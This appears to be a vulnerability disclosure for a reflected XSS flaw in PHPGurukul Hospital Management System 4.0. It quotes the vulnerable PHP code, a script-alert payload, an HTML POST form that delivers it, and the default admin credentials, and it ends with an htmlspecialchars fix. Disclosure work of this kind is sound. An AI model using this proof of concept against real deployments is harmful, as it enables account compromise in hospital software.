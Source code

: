 # [XSS vulnerability] found in Hospital Management System (HMS) 4.0 - (betweendates-detailsreports.php)

Affected Project: **Hospital Management System (HMS)**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/hospital-management-system-in-php/)

Version: 4.0

Updated: 16 May 2024

Vulnerable path/file: `hms/admin/betweendates-detailsreports.php`

Injection parameter: `fromdate` , `todate`

<br />

Size: 16.7 MB

Sha256: 705263fd0533fde4c8c4d332bf943ea66de98645262cc896f415c897e824455a

<br />

## Vulnerability Description:
The parameters $fdate and $tdate are vulnerable to XSS because they accept user input from the $_POST array and output it directly to the page without any form of sanitization or encoding. This means that if a user submits HTML or JavaScript code within these fields, it will be rendered directly in the HTML output, executing any embedded JavaScript.
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
$fdate=$_POST['fromdate'];
$tdate=$_POST['todate'];

?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate?> to <?php echo $tdate?></h5>
```

<br />

## Injection Payload Tested:

We need to set the `fromdate` and `todate` to:
```
<script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a `POST` request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `betweendates-detailsreports.php` looks like:

<br />

![betweendates-detailsreports.php](https://i.postimg.cc/HnXLvmhw/1.png)

<br />

As it is a `POST` request we need to use a file `test.html` with the following content to be able to trigger the XSS popup:

```
<form method="POST" action="http://localhost/hospital/hms/admin/betweendates-detailsreports.php">
    <input type="text" name="fromdate" value="<script>alert('XSS')</script>">
    <input type="text" name="todate" value="<script>alert('XSS')</script>">
    <input type="submit" value="Submit">
 </form>
```

<br />

Then we have to open it on the browser:

For example: `file:///C:/Users/Testpc/Desktop/test.html/test.html`

<br />

![file](https://i.postimg.cc/T2gY6Rtm/2.png)

<br />

Before submitting the POST request we must be logged in:

Default login info:

Url: `http://localhost/hospital/hms/admin/index.php`

Username: `admin`
Password: `Test@12345`

After submitting the payload using POST with the vulnerable parameters `fromdate` and `todate` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

![xss](https://i.postimg.cc/B6fkcG29/3.png)

then we need to click `OK` so the next POST request executed and XSS triggered.

![xss2](https://i.postimg.cc/5N2GmgQ0/4.png)


## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
$fdate = htmlspecialchars($_POST['fromdate'], ENT_QUOTES, 'UTF-8');
$tdate = htmlspecialchars($_POST['todate'], ENT_QUOTES, 'UTF-8');
?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate ?> to <?php echo $tdate ?></h5>

```

<br />

> One Click Can Change Everything: Be Secure.
